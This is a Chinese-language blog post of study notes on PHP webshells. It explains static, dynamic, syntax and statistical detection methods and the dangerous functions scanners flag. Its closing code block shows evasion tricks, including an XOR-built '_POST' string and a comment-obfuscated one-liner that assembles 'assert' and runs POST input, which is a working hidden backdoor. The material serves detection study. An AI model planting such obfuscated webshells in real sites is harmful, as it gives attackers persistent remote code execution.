 title: webshell学习
author: bmth
tags:
  - 学习笔记
categories: []
img: 'https://img-blog.csdnimg.cn/20210304212600229.png'
date: 2020-11-01 22:39:00
---
前面的是转载来自Smi1e师傅，[PHP Webshell检测与绕过](https://www.anquanke.com/post/id/197631)
## 前言

一般的，利用能够执行系统命令、加载代码的函数，或者组合一些普通函数，完成一些高级间谍功能的网站后门的脚本，叫做 `Webshell` 。而php做为一门动态语言，其灵活性很高，因此一直以来 `Webshell` 的绕过与检测之间不断的产生着化学反应。

`Webshell` 绕过的本质其实是针对不同的检测给予不同的绕过方式，因此想要学会绕过，首先要了解 `Webshell` 是如何检测的。

### Webshell 检测

[webshell检测模型](https://www.cnblogs.com/he1m4n6a/p/9245155.html)

> Webshell的运行流程： `hacker -> HTTP Protocol -> Web Server -> CGI` 。简单来看就是这样一个顺序：黑客通过浏览器以HTTP协议访问Web Server上的一个CGI文件。棘手的是，webshell就是一个合法的TCP连接，在TCP/IP的应用层之下没有任何特征（当然不是绝对的），只有在应用层进行检测。黑客入侵服务器，使用webshell，不管是传文件还是改文件，必然有一个文件会包含webshell代码，很容易想到从文件代码入手，这是静态特征检测；webshell运行后，B/S数据通过HTTP交互，HTTP请求/响应中可以找到蛛丝马迹，这是动态特征检测。

`Webshell` 检测大致分为

- 静态检测，通过匹配特征码，特征值，危险函数函数来查找 WebShell 的方法，只能查找已知的 WebShell，并且误报率漏报率会比较高，但是如果规则完善，可以减低误报率，但是漏报率必定会有所提高。
- 动态检测，执行时刻表现出来的特征，比如数据库操作、敏感文件读取等。
- 语法检测，根据 PHP 语言扫描编译的实现方式，进行剥离代码、注释，分析变量、函数、字符串、语言结构的分析方式，来实现关键危险函数的捕捉方式。这样可以完美解决漏报的情况。但误报上，仍存在问题。
- 统计学检测，通过信息熵、最长单词、重合指数、压缩比等检测。

这里着重讲的是静态特征检测，静态检测通过匹配特征码，特征值，危险函数函数来查找webshell的方法，只能查找已知的webshell，并且误报率漏报率会比较高，但是如果规则完善，可以减低误报率，但是漏报率必定会有所提高。优点是快速方便，对已知的webshell查找准确率高，容易被绕过。

#### 基于webshell特征检测

常见webshell函数

- 存在系统调用的命令执行函数，如 `eval、system、cmd_shell、assert` 等；
- 存在系统调用的文件操作函数，如 `fopen、fwrite、readdir` 等；
- 存在数据库操作函数，调用系统自身的存储过程来连接数据库操作；
- 具备很深的自身隐藏性、可伪装性，可长期潜伏到web源码中；
- 衍生变种多，可通过自定义加解密函数、利用xor、字符串反转、压缩、截断重组等方法来绕过检测；

```php
//利用base64编码
<?php
$b = base64_encode(‘whoami‘);
echo $b.'';
echo base64_decode($b).'';?>
//利用gzcompress压缩
<?php
$c = gzcompress('whoami');
echo $c.'<br>';
echo gzuncompress($c)."";?>
//进制运算    
 <?php @$_++; $__=("#"^"|").("."^"~").("/"^"`").("|"^"/").("{"^"/"); ?>
//利用注释符
<?php @${$__}[!$_](${$__}[$_]);@$_="s"."s"./*-/*-*/"e"./*-/*-*/"r";@$_=/*-/*-*/"a"./*-/*-*/$_./*-/*-*/"t";@$_/*-/*-*/($/*-/*-*/{"_P"./*-/*-*/"OS"./*-/*-*/"T"}[/*-/*-*/0/*-/*-*/-/*-/*-*/2/*-/*-*/-/*-/*-*/5/*-/*-*/]);    ?>
```
